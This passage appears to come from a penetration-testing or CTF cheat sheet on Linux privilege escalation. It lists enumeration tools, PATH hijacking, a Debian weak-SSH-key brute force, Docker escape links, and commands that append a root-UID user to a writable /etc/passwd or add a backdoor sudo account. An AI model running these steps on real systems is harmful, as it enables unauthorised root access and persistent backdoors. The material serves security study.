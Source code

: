     os.system("/bin/bash -p")
    ```
- Bash
    - Relative path is from `$PATH`
        - `PATH=/tmp:$PATH`

-----

#### Enumeration
Scan the system to find which can be use for privileges escalation
- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LSE](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux-Exploit-Suggester (LES)](https://github.com/mzet-/linux-exploit-suggester)

-----

#### SSH `authorized_keys` Brute force
- `/var/backups/ssh/authorized_keys` or `~/.ssh/authorized_keys`
- https://gitbook.brainyou.stream/basic-linux/ssh-key-predictable-prng-authorized_keys-process
    - `git clone https://github.com/g0tmi1k/debian-ssh`
    - `tar vjxf debian-ssh/common_keys/debian_ssh_dsa_1024_x86.tar.bz2`
    - `cd debian-ssh/common_keys/dsa/1024/`
    - `grep -lr '{keys}'`
    - Find the file name without `.pub` is secret key

-----

#### Tips
- Writable `/etc/passwd`
    - Append `root1:yeDupmFJ8ut/w:0:0:root:/root:/bin/bash` to file
        - `root1` : `meow`
    - Generate hash : `openssl passwd {PASSWORD}`
- Add User
    - `useradd -p $(openssl passwd -1 meow) root1`
- Add to sudo group
    - `usermod -aG sudo root1`

-----

#### Software
- [GTFOBins](https://gtfobins.github.io/)
    - Linux privileges escalation 
- [Pspy](https://github.com/DominicBreuker/pspy)
    - Monitor the process

-----

#### Docker

- `/.dockerenv`
	- If exist, probably in docker 
- Notice mount point
- Mount data `/proc/1/mountinfo` , `/proc/self/mounts` (LFI can read)
- [Docker_sock.sh](https://github.com/corneacristian/Docker-Sock-Privesc)
- [Docker_privesc](https://flast101.github.io/docker-privesc/)
